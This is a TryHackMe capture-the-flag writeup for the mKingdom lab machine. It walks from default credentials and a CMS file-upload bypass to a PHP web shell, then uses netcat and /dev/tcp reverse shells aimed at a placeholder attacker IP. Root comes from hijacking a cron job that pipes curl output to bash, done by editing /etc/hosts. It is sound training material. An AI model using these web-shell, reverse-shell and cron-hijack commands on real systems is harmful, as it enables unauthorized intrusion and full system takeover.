 # mKingdom - TryHackMe Writeup

**TL;DR:** Weak Credentials → File Upload Bypass → Credential Reuse → Lateral Movement → Cron Job → DNS Poisoning → Root

## Target
- Machine: `mkingdom.thm`
- Date: 2025-4-23
- Environment: TryHackMe / CTF

## Steps:

### 1. Initial scan:

```bash
#
nmap -sV -sC -T4 -Pn 10.10.186.42

85/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: 0H N0! PWN3D 4G4IN
|_http-server-header: Apache/2.4.7 (Ubuntu)
```

### 2. Directory Discovery:
```bash
gobuster dir -u http://mkingdom.thm:85/ -w /usr/share/wordlists/dirb/big.txt -t 40 -x .php

/app                  (Status: 301) [Size: 312]


gobuster dir -u http://mkingdom.thm:85/app/castle/ -w /usr/share/wordlists/dirb/big.txt -t 40 -x .php

/application
/concrete
/index.php
/packages
/robots.txt
/updates
```

### 3. Web Application Discovery

The web application presented a login page at `http://mkingdom.thm:85/app/castle/`. Initial attempts at SQL injection and brute-force attacks resulted in an IP ban, indicating the presence of security measures.

#### Credential Discovery
After testing common credentials, access was successfully gained using:
- **Username**: `admin`
- **Password**: `password`

![Login](images/sigin.png)


#### File Upload Bypass

The application allowed file uploads but restricted PHP files by default. To bypass this:

1. Navigated to the file types configuration:
   `http://mkingdom.thm:85/app/castle/index.php/dashboard/system/files/filetypes`

2. Added `.php` extension to the allowed file types:

![add-php](images/phpadd.png)


#### Web Shell Deployment

Created a simple PHP web shell:
```php
<?php system($_GET['cmd']); ?>
```

Uploaded the shell file through the application's file upload functionality:

![upload-shell](images/upload.png)

![upload-shell](images/upload2.png)

The web shell became accessible at:
`http://mkingdom.thm:85/app/castle/application/files/9817/6188/7568/cmd.php`

Verified functionality by executing the id command:
`http://mkingdom.thm:85/app/castle/application/files/9817/6188/7568/cmd.php?cmd=id`

![web-shell](images/webshell.png)

#### Revese Shell Establishment

To gain a proper shell access:

   1. Set up netcat listener on attacking machine:
```bash
nc -lnvp 4444
```
   2. Trigger reverse shell via web shell:

```bash
curl 'http://mkingdom.thm:85/app/castle/application/files/9817/6188/7568/cmd.php?cmd=busybox%20nc%20YOUR_IP%204444%20-e%20bash'
```
   3. Upgrade shell for better interaction: 

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

### 4. Lateral Movement & Credential Discovery

While exploring the web application structure, database credentials were discovered in the configuration file:

**Location**: `/var/www/html/app/castle/application/config/database.php`

![mysql-cred](images/sqlcred2.png)

#### Password Reuse

The discovered database password was reused successfully to switch to the `toad` user:

```bash
www-data@mkingdom:/$ su toad
Password: 
toad@mkingdom:/$ id
uid=1002(toad) gid=1002(toad) groups=1002(toad)
```


Examination of user configuration files revealed credentials in an unexpected location:

```bash
toad@mkingdom:~$ cat .bashrc 


export PWD_token='[REDACTED]=='

#decode it
echo '[REDACTED]==' | base64 -d
[REDACTED]
```

The decoded credentials provided access to the `mario`user:
```bash
su mario
Password:

mario@mkingdom:/home/toad$ id
uid=1001(mario) gid=1001(mario) groups=1001(mario)
```
#### User flag

```bash
mario@mkingdom:~$ cat user.txt 
cat: user.txt: Permission denied
# The cat binary runs as toad user, preventing access.

mario@mkingdom:~$ more user.txt 
thm{[REDACTED]}
```


### 5. Privilege Escalation to Root


#### Enumeration with LinPEAS

Uploaded and executed LinPEAS for automated privilege escalation enumeration, which revealed a critical finding:

```bash
╔══════════╣ Searching root files in home dirs (limit 30)
/var/www/html/app/castle/application/counter.sh
```

Discovered a root-owned script that appeared to be part of a scheduled task:
```bash
ls -la /var/www/html/app/castle/application/counter.sh
#-rw-r--r-- 1 root root 129 Nov 29  2023 /var/www/html/app/castle/application/counter.sh

cat /var/www/html/app/castle/application/counter.sh
##!/bin/bash
#echo "There are $(ls -laR /var/www/html/app/castle/ | wc -l) folder and files in TheCastleApp in - - - - > $(date)."
```

#### Process Monitoring with pspy

Using pspy64 to monitor background processes revealed a critical cron job execution:
```bash
./pspy64


2025/10/31 03:50:01 CMD: UID=0     PID=4366   | curl mkingdom.thm:85/app/castle/application/counter.sh
2025/10/31 03:50:01 CMD: UID=0     PID=4365   | CRON 
2025/10/31 03:50:01 CMD: UID=0     PID=4364   | /bin/sh -c curl mkingdom.thm:85/app/castle/application/counter.sh | bash >> /var/log/up.log
```
A root-level cron job was fetching and executing counter.sh from the web server via curl.

#### DNS Poisoning Attack

1. Created malicious counter.sh on attacking machine:
```bash
mkdir -p app/castle/application/

echo "bash -c 'bash -i >& /dev/tcp/YOUR_IP/4445 0>&1'" > app/castle/application/counter.sh
```

2. Hosted malicious script via Python HTTP server:
```bash
python3 -m http.server 85
```

3. Poisoned DNS resolution by modifying `/etc/hosts`:
```bash
mario@mkingdom:/tmp$ cat /etc/hosts
127.0.0.1       localhost
YOUR_IP       mkingdom.thm  # <- Added malicious entry
```

4. Prepared netcat listener:
```bash
nc -lnvp 4445
```

#### Root Shell Acquisition

The cron job executed the malicious script, providing a reverse shell as root:
```bash
root@mkingdom:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@mkingdom:~# 
```

#### Root Flag

Successfully retrieved the root flag:
```bash

more root.txt
thm{[REDACTED]}
```
